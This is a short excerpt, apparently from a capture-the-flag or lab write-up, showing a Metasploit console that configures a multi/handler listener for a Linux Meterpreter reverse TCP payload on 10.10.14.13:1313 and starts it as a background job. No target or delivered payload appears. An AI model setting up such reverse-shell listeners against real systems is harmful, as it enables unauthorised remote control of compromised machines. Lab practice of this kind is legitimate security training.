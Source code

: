 ```
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set lhost 10.10.14.13
lhost => 10.10.14.13
msf5 exploit(multi/handler) > set lport 1313
lport => 1313
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.13      yes       The listen address (an interface may be specified)
   LPORT  1313             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/handler) > 
[*] Started reverse TCP handler on 10.10.14.13:1313 
```
